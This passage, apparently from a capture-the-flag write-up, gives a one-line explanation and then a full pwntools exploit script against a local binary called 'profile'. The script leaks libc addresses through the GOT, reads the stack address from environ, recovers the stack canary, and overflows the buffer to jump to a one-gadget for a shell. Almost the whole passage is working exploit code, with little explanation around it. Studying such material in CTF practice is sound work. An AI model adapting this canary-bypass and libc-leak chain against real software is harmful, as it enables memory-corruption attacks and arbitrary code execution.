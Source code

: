We can first leak `setbuf`, then the base address of libc to leak `environ`, which stores stack address. Finally, we use the offset to canary to leak canary and do a overflow:
```python
from pwn import *
p = process("./profile")
profile = ELF("./profile")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

#context.log_level='DEBUG'
gdb.attach(p)

# Leak herlper function
def leak(addr):
  p.sendlineafter(">>", "1")
  payload = 'a' * 8
  payload += p64(0x40155a)
  payload += p64(addr)
  p.sendlineafter(">>", payload)
  p.sendlineafter(">>", "2")
  p.recvuntil("Name : ")
  leak_addr = u64(p.recvline()[:-1])
  return leak_addr

# We need to initialize our name to 8 bits for direct leak
p.sendlineafter(">>", "LeakAddr")
p.sendlineafter(">>", "1")
p.sendlineafter(">>", "a")

# Leak Libc Base Address via setbuf
setbuf_addr = leak(profile.got['setbuf']) 
print "setbuf Address: " + hex(setbuf_addr)
libc_addr = setbuf_addr - libc.symbols['setbuf']
print "Libc Address: " + hex(libc_addr)

# Leak Stack Address
environ_addr = libc_addr +  libc.symbols['environ']
print "Environ Address: " + hex(environ_addr)
stack_addr = leak(leak(environ_addr))
print "Stack Address: " + hex(stack_addr)

# Leak Stack Canary, the offset to canary may be vary
cookie_addr = stack_addr - 0x426 + 1 
p.sendlineafter(">>", "1")
payload = 'a' * 8
payload += p64(0x40155a)
payload += p64(cookie_addr)
p.sendlineafter(">>", payload)
p.sendlineafter(">>", "2")
p.recvuntil("Name : ")
cookie_val = u64(p.recvline()[:-1][0:]) * 0x100
print "Cookie Value: " + hex(cookie_val)

## Trigger One Gadget, the onegadget may be vary in your machine
payload = p64(0) * 7 + p64(cookie_val) + p64(0) * 3 + p64(libc_addr + 0x10a38c)
p.sendlineafter(">>", "1")
p.sendlineafter(">>", payload)
p.sendlineafter(">>", "0")

p.interactive()
```
